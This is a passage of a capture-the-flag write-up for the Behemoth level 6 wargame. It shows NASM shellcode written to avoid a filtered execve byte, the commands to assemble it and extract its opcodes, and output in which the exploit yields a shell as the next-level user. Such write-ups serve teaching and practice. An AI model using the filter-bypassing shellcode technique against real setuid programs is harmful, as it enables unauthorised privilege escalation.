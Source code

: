 behemoth6_reader goes through each byte in the shellcode and if it finds 0xb, it prints out "Write your own shellcode." and exits. 0xb is 11, which is the Linux syscall for execve. That means we can't use execve to spawn a shell, but we don't need a shell, we just need to print out "HelloKitty". The following assembly code does just that:

```nasm
[SECTION .text]

global _start

_start:
    jmp short getmsg

printmsg:
    xor eax,eax
    xor ebx,ebx
    xor ecx,ecx
    xor edx,edx
    mov al, 0x4
    mov bl, 0x1
    pop ecx
    mov dl, 0xa
    int 0x80

    xor eax, eax
    mov al, 0x1
    xor ebx,ebx
    int 0x80

getmsg:
    call printmsg
    db 'HelloKitty'
```

Now we just compile it, grab the opcodes using objdump, and write them into shellcode.txt. 

```text
root@kali ~/behemoth
# nasm -f elf kitty.asm -o kitty.o

root@kali ~/behemoth
# ld kitty.o -o kitty

root@kali ~/behemoth
# objdump -d kitty
```

If we run behemoth6, we should now get a shell: 

```
behemoth6@melinda:/tmp/koji$ whoami
behemoth6
behemoth6@melinda:/tmp/koji$ /behemoth/behemoth6
Correct.
$ whoami
behemoth7
```
